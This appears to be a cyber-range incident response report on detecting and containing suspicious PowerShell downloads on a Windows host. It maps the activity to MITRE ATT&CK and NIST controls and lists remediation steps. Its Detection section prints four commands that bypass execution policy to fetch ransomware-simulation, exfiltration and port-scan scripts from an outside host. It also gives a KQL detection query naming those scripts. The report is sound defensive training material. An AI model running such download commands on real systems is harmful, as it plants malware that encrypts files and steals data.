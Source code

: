 # 🛡️ Incident Response Report: PowerShell Suspicious Web Request (NIST 800-161 Compliant)

---

## 1. Detection

**🚨 Incident Trigger:**  
An alert was raised for suspicious PowerShell web requests involving the account:

**👤 Account:** `<king>`

**Affected Host Information:**
- **HostName:** `king-vm`
- **Operating System:** Windows
- **OS Version:** Windows
- **Last Internal IP Address:** `10.0.0.84`
- **Last External IP Address:** `68.154.42.194`

**⚙️ Observed Commands Executed:**  
The following PowerShell commands were executed using the `-ExecutionPolicy Bypass` parameter:

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
```

🧮 Detection Query:
To investigate the execution of suspicious PowerShell scripts, the following KQL query was used:

```kql
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == "king-vm"
| where ProcessCommandLine contains "-File" and InitiatingProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, InitiatingProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, InitiatingProcessCommandLine
```

### 📑 NIST 800-161 Compliance:

- ID.AM-1: Inventory and management of user accounts and scripts.

- PR.DS-5: Protection of system integrity by detecting unauthorized code execution.

## 2. Analysis

#### 🔍 Code Review: Using Browserling, the URLs were accessed, and the scripts were analyzed. Each script’s function was verified and categorized.

#### 📜 One-Line Descriptions of Each Script:

- **[portscan.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/portscan.ps1)** - Scans a specified IP range for open common ports and logs the results for network reconnaissance.

- **[eicar.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/eicar.ps1)** - Creates an EICAR test file to simulate a benign virus detection for testing antivirus software responses.

- **[exfiltratedata.ps1]()** - Generates fake employee data, compresses it, and uploads it to Azure Blob Storage to simulate data exfiltration.

- **[pwncrypt.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/pwncrypt.ps1)** - Encrypts files containing sensitive data and leaves a ransom note, simulating ransomware behavior.

## 🛠️ MITRE ATT&CK TTP Assessment:
- **T1046 - Network Service Scanning**: Executed through portscan.ps1.

- **T1059.001 - Command and Scripting Interpreter**: PowerShell - Usage of PowerShell for execution.

- **T1567.002 - Exfiltration Over Alternative Protocol**: Data exfiltration simulated by uploading to Azure Blob Storage.

- **T1486 - Data Encrypted for Impact**: Encryption of local files via pwncrypt.ps1.

## 3. Containment, Eradication, and Recovery
🚫 Containment Actions:

- Isolated the device from the network using Microsoft Defender for Endpoint (MDE).

- Executed a comprehensive antivirus (AV) scan to detect and mitigate any further malicious code.

### Eradication Steps:

- Reimaged the device and redeployed it using the last known good backup.

### Recovery Measures:

- Enrolled the affected user in an updated security awareness training program using KnowBe4.

- Developed and implemented a new policy to restrict PowerShell usage for non-administrative users.

## 📑 NIST 800-161 Compliance:

🔒 PR.PT-5: Restrict execution of scripts and enforce least privilege for administrative actions.

🛡️ RS.MI-3: Eradication of malware and unauthorized scripts.

📜 RC.IM-1: Implementation of improved policies to mitigate future incidents.

## 4. Lessons Learned & Security Improvements
- Enhance monitoring rules for PowerShell execution with bypass flags.

- Implement stricter conditional access and endpoint protection policies.

- Regularly audit administrative privileges and script execution logs.



